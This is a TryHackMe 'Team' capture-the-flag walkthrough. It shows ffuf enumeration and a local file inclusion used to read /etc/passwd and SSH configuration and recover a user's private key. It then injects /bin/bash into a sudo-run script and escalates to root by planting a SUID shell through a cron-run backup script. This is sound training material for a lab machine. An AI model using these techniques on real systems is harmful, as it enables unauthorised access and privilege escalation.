










# Team (THM)

- https://tryhackme.com/room/teamcw
- March 8, 2023
- easy

---

## Enumeration

### Nmap

```
PORT STATE SERVICE REASON VERSION
21/tcp open ftp syn-ack vsftpd 3.0.3
22/tcp open ssh syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
```

### FTP

- no anonymous login allowed

### HTTP

- default page
- brute force directory with ffuf
- nothing found



- we need to add `team.thm` in `/etc/hosts` file in local machine
- then can found a web page


- directory brute forcing with ffuf

```
assets
images
robots.txt -> dale
scripts -> 403
```

- search subdomains

```sh
ffuf -u http://team.thm -w /usr/share/wordlists/dnsnames.txt -H "Host: FUZZ.team.thm" -c -t 128 -fs 11366
```

```
dev
flowersshoreditch
www
```

- add in `/etc/hosts` file

- `http://dev.team.thm`





- page parameter may be vulnerable to lfi?
- try with `/etc/passwd` file

- it is vulnerable to lfi



- As I don't know which file to see, I use `LFI-gracefulsecurity-linux.txt` from seclist wordlist, and fuzz with ffuf and use proxy as burp

```sh
$ ffuf -u http://dev.team.thm/script.php\?page\=FUZZ -w /opt/wordlists/SecLists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt -c -t 128 -x http://127.0.0.1:8080
```

- interesting files from LFI
- /etc/ssh/sshd_config -> can found id_rsa file



- save id_rsa
- chmod to 600 and try to enter as dale

## User Access

- enter as dale user with above id_rsa

```sh
dale@TEAM:~$ sudo -l
Matching Defaults entries for dale on TEAM:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dale may run the following commands on TEAM:
    (gyles) NOPASSWD: /home/gyles/admin_checks

```

- check what is `admin_checks` file

```sh
dale@TEAM:/home/gyles$ file admin_checks
admin_checks: Bourne-Again shell script, ASCII text executable

dale@TEAM:/home/gyles$ cat admin_checks
#!/bin/bash

printf "Reading stats.\n"
sleep 1
printf "Reading stats..\n"
sleep 1
read -p "Enter name of person backing up the data: " name
echo $name  >> /var/stats/stats.txt
read -p "Enter 'date' to timestamp the file: " error
printf "The Date is "
$error 2>/dev/null

date_save=$(date "+%F-%H-%M")
cp /var/stats/stats.txt /var/stats/stats-$date_save.bak

printf "Stats have been backed up\n"
```

- what is the purpose of `error` variable??
- we can get gyles' shell by adding `/bin/bash` in error variable input



- we get gyles user
- find some interesting GUID for gyles





- check which process are running with `pspy`



- this process is running once per minute and gyles user is also group member of admin and can write `main_backup.sh` file

## Root Access

- write to get SUID bash shell in tmp folder



- wait for the root user to run that script


---
